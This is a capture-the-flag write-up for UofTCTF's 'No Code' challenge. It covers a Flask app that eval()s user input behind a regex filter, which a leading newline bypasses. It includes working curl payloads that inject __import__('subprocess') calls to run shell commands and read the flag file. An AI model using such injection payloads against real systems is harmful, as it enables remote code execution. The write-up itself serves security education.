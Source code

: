 # No Code [148 Solves]

## Description

> I made a web app that lets you run any code you want. Just kidding!
>
> Author: SteakEnthusiast
>
> `https://uoftctf-no-code.chals.io/`
>
> Attachments: app.py

## Source Code

app.py

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)


@app.route("/execute", methods=["POST"])
def execute_code():
    code = request.form.get("code", "")
    print(code)
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200


if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

## Solution

The regular expression `.*[\x20-\x7E]+.*` restricts most ASCII characters.
However, since `re.match` is used, we can bypass this with a newline.

Tested in Python console:

```python
>>> re.match(".*[\x20-\x7E]+.*", "foobar")
<re.Match object; span=(0, 6), match='foobar'>
>>> re.match(".*[\x20-\x7E]+.*", "\nfoobar")
>>>
```

Exploit:

```console
$ curl https://uoftctf-no-code.chals.io/execute -d code="%0a__import__('subprocess').run('id', shell=True, capture_output=True).stdout.decode()"
{"output":"uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)\n"}

$ curl https://uoftctf-no-code.chals.io/execute -d code="%0a__import__('subprocess').run('ls', shell=True, capture_output=True).stdout.decode()"
{"output":"app.py\nflag.txt\nrequirements.txt\n"}

$ curl https://uoftctf-no-code.chals.io/execute -d code="%0a__import__('subprocess').run('cat flag.txt', shell=True, capture_output=True).stdout.decode()"
{"output":"uoftctf{r3g3x_3p1c_f41L_XDDD}"}
```

## Flag

uoftctf{r3g3x_3p1c_f41L_XDDD}

## References

- [re — Regular expression operations — Python 3.12.1 documentation](https://docs.python.org/3.12/library/re.html#re.match)
- [Python RE Bypass Technique](https://www.secjuice.com/python-re-match-bypass-technique/)
